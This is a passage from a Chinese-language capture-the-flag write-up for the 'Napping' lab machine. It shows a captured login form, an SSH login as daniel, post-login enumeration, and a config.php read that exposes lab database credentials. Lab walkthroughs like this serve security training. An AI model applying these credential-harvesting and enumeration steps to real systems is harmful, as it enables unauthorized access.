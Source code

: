         username=daniel&password=C%40ughtm3napping123 
        ```
        

## 获得shell

1. 得到用户凭证后，尝试登录`ssh`
    
    ```python
    daniel
    C@ughtm3napping123
    ```
    
    登陆成功
    
2. 查看权限

```python
daniel@napping:~$ whoami                                                                │┌──(root㉿kali)-[~/Desktop/test/diaoyu]
daniel                                                                                  │└─# python -m http.server 80
daniel@napping:~$ id                                                                    │Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel),1002(administrators)              │^C
daniel@napping:~$ uname -a                                                              │Keyboard interrupt received, exiting.
Linux napping 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_6│                                                                                                         
4 x86_64 GNU/Linux 
```

1. 查找敏感文件
    - `suid`以及`sudo`没有可利用的
    - 寻找数据库配置文件
        
        ```python
        daniel@napping:/var/www/html$ cat config.php 
        <?php
        /* Database credentials. Assuming you are running MySQL
        server with default setting (user 'root' with no password) */
        define('DB_SERVER', 'localhost');
        define('DB_USERNAME', 'adrian');
        define('DB_PASSWORD', 'P@sswr0d456');
        define('DB_NAME', 'website');
         
        /* Attempt to connect to MySQL database */
        $mysqli = new mysqli(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
         
        // Check connection
        if($mysqli === false){
            die("ERROR: Could not connect. " . $mysqli->connect_error);
        }
        ?>
        ```
        